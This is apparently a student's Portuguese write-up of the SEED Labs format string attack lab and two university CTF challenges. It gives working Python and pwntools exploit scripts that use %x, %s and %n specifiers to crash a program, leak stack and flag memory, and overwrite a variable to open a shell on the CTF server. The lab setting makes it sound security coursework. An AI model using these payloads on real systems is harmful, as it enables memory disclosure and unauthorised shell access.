




# SeedLabs: Format String Attack
## Task 1

De modo a crashar o programa, usamos o seguinte comando:

```py
python3 -c "print('%d'*1000") | nc 10.9.0.5 9090
```

Isto funciona pois a função tentará aceder a muitos endereços, dos quais alguns serão restritos desencadeando um crash.

## Task 2

### Task 2.A

Nesta tarefa, foi utilizado um script que inicalmente escreve os bytes `0xABCD`, para podermos ter uma referência para onde os bytes do buffer começam, e depois é escrito um número variável de `%x`, tirando proveito do facto do facto de, quando o `printf` não recebe um parâmetro, as variáveis na stack serem utilizadas para preenchê-lo, incrementando automaticamente o seu endereço.

Utilizando `python3 task2A.py 64`, obtemos como output o conteúdo da stack, com o tamanho desse conteúdo igual ao número dado no argumento.

```py
import sys

def main():
    if(len(sys.argv) != 2):
        print("Error, size missing")
        return 1

    size = sys.argv[1]

    payload = ((b'\xCD\xAB') + b'%x'*int(size))
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

### Task 2.B

Esta task é semelhante à anterior, exceto o facto de ser necessário fornecer o endereço da variável que pretendemos ler, mover para a posição onde o endereço foi escrito e imprimir a string apontada para a qual ele aponta usando `%s`.

```py
def main():
    payload = ((b'\x08\x40\x0b\x08') + b'%x'*63 + b'%s')
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

Criando o payload e executando, conseguimos ler variável com sucesso.

## Task 3

### Task 3.A

De modo a escrever informação num certo endereço utilizando a vulnerabilidade de string format, precisamos de usar o `%n` format specifier, que essencialmente escreve o número de bytes escritos até ao momento num certo endereço.

Tendo isto em conta, escrevemos um script que começa por escrever o endereço que queremos mudar. De seguida, avança para a posição onde esse endereço foi escrito e finalmente imprime `%n`, que altera o valor para `4 + 63 = 67` (tamanho do endereço + deslocamento do buffer).

```py
def main():
    payload = ((b'\x68\x50\x0e\x08') + b'%x'*63 + b'%n')
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

### Task 3.B

Utilizando a mesma lógica da task anterior, adaptamos o nosso script de modo a que o número de bytes imprimidos até o momento fosse igual ao valor que pretendemos escrever no endereço target. Para alcançar isso, utilizamos o string formatter `%19980x`, que imprime o um valor com 19980 bytes, ou seja, o endereço alvo ficará com o valor `4 + 4*62 + 19980 = 20480 = 0x5000`. Também necessitamos de alterar o número de bytes lidos para 62 (menos 1 comparado com a task anterior), de modo a acomodar o `%19980x` que foi introduzido.

```py
target_addr = b'\x68\x50\x0e\x08'

def main():
    payload = (target_addr + b'%08x'*62 + b'%19980x' + b'%n')

    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()  
```

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 4004/4005

## Desafio 1

Começando por correr o `checksec`, é possível observar que os endereços são de 32 bit, a arquitetura do ficheiro é x86 (Arch), existe um canary a proteger o return address (Stack), a stack não tem permissão de execução e as posições do binário não estão randomizadas.



- Qual é a linha do código onde a vulnerabilidade se encontra? 
  - A vulnerabilidade encontra-se na linha 27, `print(buffer)`.

- O que é que a vulnerabilidade permite fazer? 
  - A linha especificada tem uma vulnerabilidade, Format string injection, que permite-nos inserir format specifiers, através do input que será colocado no buffer, que serão interpretados pelo printf, permitindo leitura e escrita arbitária de memória.

- Qual é a funcionalidade que te permite obter a flag?
  - O exploit baseia-se no facto de, quando a função `printf` não recebe um parâmetro, as variáveis na pilha serem utilizadas para preenchê-lo, incrementando automaticamente o seu endereço.

Tal como o `checksec` indica, os endereços do programa são estáticos, pelo que, utilizando o gdb, descobrimos que o endereço de memória da variável onde se encontra a flag é `0x804c060`.


Assim, adaptamos um script para obter a flag do servidor.

```py
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

addr = '\x60\xc0\x04\x08'
payload = addr + '|' + '%s'

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```



## Desafio 2

Neste segundo desafio realizamos o mesmo procedimento do desafio anterior, com a diferença de que tivemos de planear cuidadosamente a string utilizada, visto ser necessário colocar o valor `0xbeef` na variável `key` de modo a abrir uma sessão bash.


O endereço do espaço de memória onde se encontra a variável key pode ser encontrado recorrendo ao gdb, de forma semelhante ao desafio anterior, e o seu valor é `0x804c034`.



Para definir o valor correto da variável key, necessitamos de ler 48879 bytes seguidos de um `%n` de modo a escrever esse valor no endereço de memória especificado.

O conteúdo inicial do payload é irrelevante, de modo que foi utilizada a string `'AAAA'`. Este será lido pelo format specifier `%48871x`, permitindo assim manipular o número de bytes lidos, e posicionando o endereço da variável key de modo a ser escrito pelo format specifier `%n`.

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

# key -> 0x804c034 : precisamos colocar trocar o seu valor por 0xbeef (48879)

addr = '\x34\xc0\x04\x08'

payload = 'AAAA' + addr + '%48871x' + '%n'
# É escrito 'AAAA' (4 bytes), addr (4 bytes) e '%48871x' (48871 bytes)
# 4+4+48871 = 48879 = 0xbeef

p.recvuntil(b"here...")
p.sendline(payload)
```

Como é possível observar na seguinte imagem, foi obtido com sucesso acesso à shell, que nos permitiu descobrir facilmente a flag através dos comandos `ls` e `cat`.


